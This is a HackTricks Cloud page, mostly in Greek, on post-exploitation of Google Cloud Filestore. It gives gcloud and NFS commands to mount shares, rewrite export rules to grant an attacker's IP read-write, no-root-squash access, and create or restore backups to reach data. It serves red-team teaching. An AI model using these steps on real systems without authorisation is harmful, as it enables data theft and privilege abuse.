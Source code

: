 # GCP - Filestore Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Filestore

Για περισσότερες πληροφορίες σχετικά με το Filestore, ελέγξτε:

{% content-ref url="../gcp-services/gcp-filestore-enum.md" %}
[gcp-filestore-enum.md](../gcp-services/gcp-filestore-enum.md)
{% endcontent-ref %}

### Mount Filestore

Ένα κοινόχρηστο σύστημα αρχείων **μπορεί να περιέχει ευαίσθητες πληροφορίες** που είναι ενδιαφέρουσες από την προοπτική ενός επιτιθέμενου. Με πρόσβαση στο Filestore, είναι δυνατό να **τοποθετηθεί**: 

{% code overflow="wrap" %}
```bash
sudo apt-get update
sudo apt-get install nfs-common
# Check the share name
showmount -e <IP>
# Mount the share
mkdir /mnt/fs
sudo mount [FILESTORE_IP]:/[FILE_SHARE_NAME] /mnt/fs
```
{% endcode %}

Για να βρείτε τη διεύθυνση IP μιας παρουσίας filestore, ελέγξτε την ενότητα αρίθμησης της σελίδας:

{% content-ref url="../gcp-services/gcp-filestore-enum.md" %}
[gcp-filestore-enum.md](../gcp-services/gcp-filestore-enum.md)
{% endcontent-ref %}

### Αφαίρεση Περιορισμών και απόκτηση επιπλέον δικαιωμάτων

Εάν ο επιτιθέμενος δεν βρίσκεται σε μια διεύθυνση IP με πρόσβαση στο κοινόχρηστο, αλλά έχετε αρκετά δικαιώματα για να το τροποποιήσετε, είναι δυνατόν να αφαιρέσετε τους περιορισμούς ή την πρόσβαση σε αυτό. Είναι επίσης δυνατό να παραχωρήσετε περισσότερα προνόμια στη διεύθυνση IP σας για να έχετε διαχειριστική πρόσβαση στο κοινόχρηστο:
```bash
gcloud filestore instances update nfstest \
--zone=<exact-zone> \
--flags-file=nfs.json

# Contents of nfs.json
{
"--file-share":
{
"capacity": "1024",
"name": "<share-name>",
"nfs-export-options": [
{
"access-mode": "READ_WRITE",
"ip-ranges": [
"<your-ip-private-address>/32"
],
"squash-mode": "NO_ROOT_SQUASH",
"anon_uid": 1003,
"anon_gid": 1003
}
]
}
}
```
### Restore a backup

Αν υπάρχει ένα αντίγραφο ασφαλείας, είναι δυνατόν να **το επαναφέρετε** σε μια υπάρχουσα ή σε μια νέα παρουσία, ώστε οι **πληροφορίες του να γίνουν προσβάσιμες:**
```bash
# Create a new filestore if you don't want to modify the old one
gcloud filestore instances create <new-instance-name> \
--zone=<zone> \
--tier=STANDARD \
--file-share=name=vol1,capacity=1TB \
--network=name=default,reserved-ip-range=10.0.0.0/29

# Restore a backups in a new instance
gcloud filestore instances restore <new-instance-name> \
--zone=<zone> \
--file-share=<instance-file-share-name> \
--source-backup=<backup-name> \
--source-backup-region=<backup-region>

# Follow the previous section commands to mount it
```
### Δημιουργία αντιγράφου ασφαλείας και αποκατάσταση

Αν **δεν έχετε πρόσβαση σε ένα κοινόχρηστο και δεν θέλετε να το τροποποιήσετε**, είναι δυνατόν να **δημιουργήσετε ένα αντίγραφο ασφαλείας** από αυτό και να το **αποκαταστήσετε** όπως αναφέρθηκε προηγουμένως:

{% code overflow="wrap" %}
```bash
# Create share backup
gcloud filestore backups create <back-name> \
--region=<region> \
--instance=<instance-name> \
--instance-zone=<instance-zone> \
--file-share=<share-name>

# Follow the previous section commands to restore it and mount it
```
{% endcode %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
